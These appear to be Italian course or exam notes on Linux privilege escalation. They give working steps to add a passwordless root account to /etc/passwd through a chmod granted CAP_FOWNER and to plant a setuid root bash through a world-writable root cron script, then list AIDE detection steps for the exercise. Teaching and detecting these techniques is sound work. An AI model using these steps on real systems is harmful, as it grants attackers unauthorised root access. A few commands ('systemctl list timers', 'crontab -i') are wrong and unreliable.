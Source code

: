 Precondizioni: a chmod è stata data la capability CAP_FOWNER, quindi può cambiare i permessi a qualsiasi file

```sh
# assegno la capability
sudo /usr/sbin/setcap "CAP_FOWNER+eip" /usr/bin/chmod 

chmod 666 /etc/passwd

echo "toor::0:0::/root:/bin/bash" >> /etc/passwd

chmod 644 /etc/passwd 	
```

## Processi nascosti
1. ```systemctl list timers```

**Escalation**: se un timer viene eseguito come root e l’utente può modificare lo script o la directory da cui viene eseguito, è un'escalation diretta.

2. ```atq```

**Escalation**: se un attaccante ha accesso a at e può eseguire job come root (per esempio via sudo o setuid su at), può eseguire un payload.

3. ```crontab -i```

**Escalation**: È stato definito un cronjob con script scrivibile:

```sh
crontab -i

# output
*/5 * * * * root /opt/scripts/backup.sh
# ha permessi root, ma è scrivibile da un utente non privilegiato

ls -l /opt/scripts/backup.sh
-rwxrwxrwx 1 root root 1234 Jun 5 09:00 /opt/scripts/backup.sh

# se al backup.sh aggiungo la riga:
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash
# L’utente user può poi semplicemente lanciare /tmp/rootbash e ottenere una shell root
```

# Esami su Privilege escalation

1) inizializzare aide: aideinit

2) copiare il database: sudo mv /var/lib/aide/aide.db.new /var/lib/aide/aide.db

3) eseguire una scansione prima di lanciare il comando: sudo aide --config=/etc/aide/aide.conf --check

4) esegui il comando
